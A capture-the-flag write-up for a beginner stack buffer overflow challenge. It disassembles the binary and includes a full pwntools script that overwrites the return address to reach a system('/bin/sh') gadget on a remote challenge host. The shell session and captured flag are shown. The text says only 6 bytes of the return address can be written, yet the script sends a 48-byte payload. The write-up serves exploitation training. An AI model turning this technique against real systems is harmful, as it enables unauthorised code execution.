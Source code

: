 # Rookie Mistake - PWN Challenge Writeup

## Challenge Information

- **Challenge Name:** Rookie Mistake
- **Category:** PWN (Binary Exploitation)
- **Points:** N/A
- **Difficulty:** Beginner/Intermediate
- **Flag:** `HTB{r3t2c0re_3sc4p3_th3_b1n4ry_bc3af7325b396b9dba6bd3fc3e5efa82}`

## Challenge Description

> Rook — the fearless, reckless hunter — has become trapped within the binary during his attempt to erase NEMEGHAST. To set him free, you must align the cores and unlock his path back to the light. Failing that… find another way. Bypass the mechanism. Break the cycle. 
> 
> **Objective:** Ret2win but not in a function, but a certain address.

**Connection Details:**
- Host: `46.101.224.18`
- Port: `32232`

## Initial Analysis

### Binary Information

```bash
$ file rookie_mistake
rookie_mistake: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
for GNU/Linux 3.2.0, not stripped
```

### Security Protections

Using `readelf` to analyze the binary:

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found    ← Vulnerable to buffer overflow
NX:         NX enabled
PIE:        No PIE (0x400000)  ← Fixed addresses
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

**Key Findings:**
- No stack canary - vulnerable to buffer overflow attacks
- No PIE - fixed memory addresses, making exploitation easier
- Not stripped - we can see function names

## Vulnerability Analysis

### Binary Structure

Using radare2 to analyze the binary:

```bash
$ r2 -qc "aaa; afl" rookie_mistake
```

**Key Functions Identified:**
- `main` - Entry point at `0x0040176b`
- `sym.overflow_core` - Contains the win condition at `0x00401672`
- `sym.check_core` - Core alignment check function
- `sym.info` - Info display function

### Main Function Analysis

```assembly
0x0040176b      f30f1efa       endbr64
0x0040176f      55             push rbp
0x00401770      4889e5         mov rbp, rsp
0x00401773      4883ec20       sub rsp, 0x20      ; Allocate 32 bytes for buffer
...
0x004017ab      488d45e0       lea rax, [buf]     ; buf at rbp-0x20
0x004017af      ba2e000000     mov edx, 0x2e      ; Read 46 bytes (0x2e)
0x004017b4      4889c6         mov rsi, rax
0x004017b7      bf00000000     mov edi, 0
0x004017bc      e88ff9ffff     call sym.imp.read  ; read(0, buf, 46)
```

**Vulnerability:** The program reads 46 bytes (`0x2e`) into a buffer located at `rbp-0x20` (32 bytes), allowing us to overflow 14 bytes.

### The Win Condition

Analyzing `sym.overflow_core`:

```assembly
0x00401758      488d054819..   lea rax, [0x004030a7]  ; "/bin/sh"
0x0040175f      4889c7         mov rdi, rax
0x00401762      e8b9f9ffff     call sym.imp.system    ; system("/bin/sh")
```

**Target Address:** `0x401758`

This is the "win gadget" that loads `/bin/sh` and calls `system()`. The challenge description hints at this: *"Ret2win but not in a function, but a certain address"* - we need to return to this specific address within the `overflow_core` function, not to the function itself.

## Exploitation

### Calculating the Offset

Buffer layout:
```
[32 bytes buffer] + [8 bytes saved RBP] + [8 bytes return address]
                    ↑
                    Offset = 40 bytes
```

With 46 bytes we can write:
- 40 bytes to fill buffer and saved RBP
- 6 bytes to partially overwrite the return address (enough for our target)

### Exploit Development

**exploit_remote.py:**

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64', os='linux')
context.log_level = 'info'

# Target binary
binary = './rookie_mistake'
elf = ELF(binary)

# Remote host details
REMOTE_HOST = '46.101.224.18'
REMOTE_PORT = 32232

# Win address - address of the gadget that calls system("/bin/sh")
# This is at 0x401758 in sym.overflow_core
win_addr = 0x401758

# Create the payload
# Buffer is at rbp-0x20 (32 bytes)
# Then 8 bytes for saved rbp
# Then 8 bytes for return address
# Total offset = 40 bytes to reach return address
offset = 40
payload = b'A' * offset
payload += p64(win_addr)

log.info(f"Payload length: {len(payload)}")
log.info(f"Win address: {hex(win_addr)}")
log.info(f"Offset: {offset}")

# Connect to remote
log.info(f"Connecting to remote: {REMOTE_HOST}:{REMOTE_PORT}")
io = remote(REMOTE_HOST, REMOTE_PORT)

# Receive banner
log.info("Receiving banner...")
print(io.recvuntil(b'$', timeout=2).decode(errors='ignore'))

# Send the payload
log.info("Sending payload...")
io.sendline(payload)

# Interact with the shell
log.success("Exploit sent! Dropping to interactive shell...")
io.interactive()
```

### Running the Exploit

```bash
$ python3 exploit_remote.py
[*] Payload length: 48
[*] Win address: 0x401758
[*] Offset: 40
[*] Connecting to remote: 46.101.224.18:32232
[+] Opening connection to 46.101.224.18 on port 32232: Done
[*] Receiving banner...
[*] Sending payload...
[+] Exploit sent! Dropping to interactive shell...
[*] Switching to interactive mode

$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ whoami
ctf
$ ls
core
flag.txt
rookie_mistake
$ cat flag.txt
HTB{r3t2c0re_3sc4p3_th3_b1n4ry_bc3af7325b396b9dba6bd3fc3e5efa82}
```

## Flag

```
HTB{r3t2c0re_3sc4p3_th3_b1n4ry_bc3af7325b396b9dba6bd3fc3e5efa82}
```

## Key Takeaways

1. **Classic Buffer Overflow:** The challenge demonstrates a classic stack-based buffer overflow vulnerability due to insufficient bounds checking.

2. **Ret2Win Variant:** Instead of returning to a function entry point, we return to a specific address within a function that contains the win condition.

3. **No Canary = Easy Exploitation:** The absence of stack canaries makes this exploitation straightforward once the offset is calculated.

4. **Fixed Addresses:** No PIE means we don't need to leak addresses or deal with ASLR.

## Tools Used

- **radare2/r2:** Binary analysis and disassembly
- **pwntools:** Exploit development and remote connection
- **Python 3:** Scripting the exploit

## References

- [pwntools Documentation](https://docs.pwntools.com/)
- [Buffer Overflow Basics](https://en.wikipedia.org/wiki/Buffer_overflow)
- [Return-to-libc Attack](https://en.wikipedia.org/wiki/Return-to-libc_attack)
